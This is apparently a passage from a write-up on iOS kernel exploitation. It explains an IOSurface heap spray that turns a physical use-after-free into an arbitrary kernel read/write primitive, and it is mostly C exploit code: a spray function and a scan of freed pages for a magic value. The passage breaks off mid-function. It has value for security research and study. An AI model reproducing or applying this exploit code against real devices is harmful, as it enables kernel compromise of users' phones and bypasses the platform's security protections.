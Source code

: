 ### Step-by-Step Heap Spray Process

1. **Spray IOSurface Objects**: The attacker creates many IOSurface objects with a special identifier ("magic value").
2. **Scan Freed Pages**: They check if any of the objects have been allocated on a freed page.
3. **Read/Write Kernel Memory**: By manipulating fields in the IOSurface object, they gain the ability to perform **arbitrary reads and writes** in kernel memory. This lets them:
   * Use one field to **read any 32-bit value** in kernel memory.
   * Use another field to **write 64-bit values**, achieving a stable **kernel read/write primitive**.

Generate IOSurface objects with the magic value IOSURFACE\_MAGIC to later search for:

```c
void spray_iosurface(io_connect_t client, int nSurfaces, io_connect_t **clients, int *nClients) {
    if (*nClients >= 0x4000) return;
    for (int i = 0; i < nSurfaces; i++) {
        fast_create_args_t args;
        lock_result_t result;
        
        size_t size = IOSurfaceLockResultSize;
        args.address = 0;
        args.alloc_size = *nClients + 1;
        args.pixel_format = IOSURFACE_MAGIC;
        
        IOConnectCallMethod(client, 6, 0, 0, &args, 0x20, 0, 0, &result, &size);
        io_connect_t id = result.surface_id;
        
        (*clients)[*nClients] = id;
        *nClients = (*nClients) += 1;
    }
}
```

Search for **`IOSurface`** objects in one freed physical page:

```c
int iosurface_krw(io_connect_t client, uint64_t *puafPages, int nPages, uint64_t *self_task, uint64_t *puafPage) {
    io_connect_t *surfaceIDs = malloc(sizeof(io_connect_t) * 0x4000);
    int nSurfaceIDs = 0;
    
    for (int i = 0; i < 0x400; i++) {
        spray_iosurface(client, 10, &surfaceIDs, &nSurfaceIDs);
        
        for (int j = 0; j < nPages; j++) {
            uint64_t start = puafPages[j];
            uint64_t stop = start + (pages(1) / 16);
            
            for (uint64_t k = start; k < stop; k += 8) {
                if (iosurface_get_pixel_format(k) == IOSURFACE_MAGIC) {
                    info.object = k;
                    info.surface = surfaceIDs[iosurface_get_alloc_size(k) - 1];
                    if (self_task) *self_task = iosurface_get_receiver(k);
                    goto sprayDone;
                }
            }
        }
    }
    
sprayDone:
    for (int i = 0; i < nSurfaceIDs; i++) {
        if (surfaceIDs[i] == info.surface) continue;
        iosurface_release(client, surfaceIDs[i]);
    }
    free(surfaceIDs);
    
```